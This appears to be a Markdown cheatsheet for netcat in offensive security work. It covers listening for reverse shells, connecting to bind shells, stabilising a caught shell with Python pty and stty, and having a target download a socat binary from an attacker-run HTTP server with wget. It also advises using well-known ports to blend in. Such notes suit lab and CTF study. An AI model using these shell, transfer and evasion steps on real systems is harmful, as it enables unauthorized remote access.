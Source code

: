 # Netcat Cheatsheet

## Basics

* Can be used to listen for incomming connections to establish a reverse shell or connect to a bind shell.

### Help

```bash
nc -h
```

---

## Usage

### Flags

* `-l` : listen mode.
* `-n` : Don't resolve with DNS. Just use IP addresses.
* `-v` : Verbose output.
* `-p` : Specify the port to use. Ports below 1024 require `sudo` priviliges.

In order to blend in, use well known ports to listen on.

### Stabilisation

#### Python

```bash
python -c 'import pty;pty.spawn("/bin/bash")'   # May need to speicfy python version (e.g. python3)
export TERM=xterm                               # access to commands suchas `clear`
# Background the shell with CTRL + Z
stty raw -echo; fg                              # Turn off local `echo` and foregrounds the shell

# Note: `echo` is turned of. If the shell dies, use `reset` to turn it back on.
```

#### rlwrap

* Install with `sudo apt install rlwrap`

```bash
rlwrap nc -lnvp <port>                          # Starts a listener
# Background the shell with CTRL + Z
stty raw -echo; fg                              # Turn off local `echo` and foregrounds the shell
```

#### Socat

```bash
sudo python3 -m http.server 80                  # Start a http server on the attacker machine
wget <LOCAL-IP>/socat -O /tmp/socat             # Download the socat static compiled binary to the target machine
```

## Examples

```bash
# Basic most common use case to listen for an incomming shell
nc -lnvp 443

# Connect to a listener
nc 10.10.1.101 4444

```
